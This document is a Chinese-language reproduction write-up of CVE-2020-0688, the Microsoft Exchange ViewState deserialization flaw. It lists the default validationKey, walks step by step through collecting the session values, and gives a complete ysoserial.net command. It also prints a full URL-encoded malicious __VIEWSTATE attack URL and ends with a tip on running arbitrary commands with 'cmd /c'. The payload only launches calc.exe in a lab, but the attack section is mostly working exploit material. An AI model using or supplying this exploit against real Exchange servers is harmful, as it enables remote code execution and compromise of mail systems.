



# CVE-2020-0688_微软EXCHANGE服务的远程代码执行漏洞复现        

**漏洞编号**：CVE-2020-0688

**漏洞描述**：攻击者向存在缺陷的Exchange服务器发送经过特殊处理的电子邮件即可触发漏洞。这个漏洞是由于Exchange服务器在安装时没有正确地创建唯一的加密密钥所造成的。

  具体来说，与每次软件安装都会产生随机密钥不同，所有Exchange Server在安装后的web.config文件中都拥有**相同的validationKey和decryptionKey**。这些密钥用于保证ViewState的安全性。而ViewState是ASP.NET Web应用以序列化格式存储在客户机上的服务端数据。客户端通过__VIEWSTATE请求参数将这些数据返回给服务器。攻击者可以在Exchange Control Panel web应用上执行任意.net代码。

**影响版本**：exchange 2010、2013、2016、2019全版本通杀。

 

**漏洞复现：**

复现环境：server 12 + exchange 2013 15.0.516.32（2012 年12月3日）和15.0.1497.2（2019年6月18日）两版。

复现过程：

1、获取ViewStateUserKey值

/ecp/default.aspx

F12键打开开发工具的Network选项，然后按F5重新发送请求。我们需要找到登录时`/ecp/default.aspx`的原始响应：

 

 

 

 2、获取取__VIEWSTATEGENERATOR值：

同样在/ecp/default.aspx的响应包内，直接搜索关键词即可。

 

 

 或使用document.getElementById("__VIEWSTATEGENERATOR").value

 

 

 如果发现没有改字段，是因为系统没有安装KB2919355补丁，更新该补丁后可显示，但是该字段值基本唯一，不需要刻意获得。

 

3.整理已知参数

--validationkey = CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF**（默认，漏洞产生原因）**

--validationalg = SHA1**（默认，漏洞产生原因）**

--generator = B97B4E27**（基本默认）**

--viewstateuserkey = d673d1a4-1794-403e-ab96-e283ca880ef2**（手工获取，变量，每次登陆都不一致）**

 

4.生成payload:

.\ysoserial.exe -p ViewState -g  TextFormattingRunProperties -c "calc.exe" --validationalg="SHA1"  --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF"  --generator="B97B4E27"  --viewstateuserkey="d673d1a4-1794-403e-ab96-e283ca880ef2" --isdebug  --islegacy

 

 

 5.上面ysoserial.exe生成的payload要用URL Encode编码：

 

 

 

6.完整的攻击地址示例：

https://192.168.1.248/ecp/default.aspx?__VIEWSTATEGENERATOR=**B97B4E27**&__VIEWSTATE=%2FwEyhAYAAQAAAP%2F%2F%2F%2F8BAAAAAAAAAAwCAAAAXk1pY3Jvc29mdC5Qb3dlclNoZWxsLkVkaXRvciwgVmVyc2lvbj0zLjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPTMxYmYzODU2YWQzNjRlMzUFAQAAAEJNaWNyb3NvZnQuVmlzdWFsU3R1ZGlvLlRleHQuRm9ybWF0dGluZy5UZXh0Rm9ybWF0dGluZ1J1blByb3BlcnRpZXMBAAAAD0ZvcmVncm91bmRCcnVzaAECAAAABgMAAACmBDxSZXNvdXJjZURpY3Rpb25hcnkNCiAgeG1sbnM9Imh0dHA6Ly9zY2hlbWFzLm1pY3Jvc29mdC5jb20vd2luZngvMjAwNi94YW1sL3ByZXNlbnRhdGlvbiINCiAgeG1sbnM6eD0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5meC8yMDA2L3hhbWwiDQogIHhtbG5zOlN5c3RlbT0iY2xyLW5hbWVzcGFjZTpTeXN0ZW07YXNzZW1ibHk9bXNjb3JsaWIiDQogIHhtbG5zOkRpYWc9ImNsci1uYW1lc3BhY2U6U3lzdGVtLkRpYWdub3N0aWNzO2Fzc2VtYmx5PXN5c3RlbSI%2BDQoJIDxPYmplY3REYXRhUHJvdmlkZXIgeDpLZXk9IiIgT2JqZWN0VHlwZSA9ICJ7IHg6VHlwZSBEaWFnOlByb2Nlc3N9IiBNZXRob2ROYW1lID0gIlN0YXJ0IiA%2BDQogICAgIDxPYmplY3REYXRhUHJvdmlkZXIuTWV0aG9kUGFyYW1ldGVycz4NCiAgICAgICAgPFN5c3RlbTpTdHJpbmc%2BY2FsYy5leGU8L1N5c3RlbTpTdHJpbmc%2BDQogICAgIDwvT2JqZWN0RGF0YVByb3ZpZGVyLk1ldGhvZFBhcmFtZXRlcnM%2BDQogICAgPC9PYmplY3REYXRhUHJvdmlkZXI%2BDQo8L1Jlc291cmNlRGljdGlvbmFyeT4Lp73ado0NJN2PSSnfOoN9h4H7xCU%3D

 

7.成功弹出计算器：

 

 

 

//ysoserial.exe下载：

https://github.com/pwntester/ysoserial.net

https://github.com/Jumbo-WJB/CVE-2020-0688
 https://github.com/random-robbie/cve-2020-0688

 

//Exchange版本和各更新包下载：

https://docs.microsoft.com/zh-cn/Exchange/new-features/build-numbers-and-release-dates?view=exchserver-2016

 

8.无法创建文件

  无法创建文件这一点其实最坑了，明明可以启动calc.exe但是就是不能创建文件，导致我最初一直以为是版本问题或者__VIEWSTATEGENERATOR参数问题。但是后来经过测试发现虽然在演示过程中直接-c "echo OOOPS!!! >  c:/Vuln_Server.txt"创建文件，让人误以为-c是在cmd窗口下运行，但是实际上-c实际为“运行”的内容，因此直接echo是不行的，需要-c "cmd /c echo test > C:\1.txt"这样创建。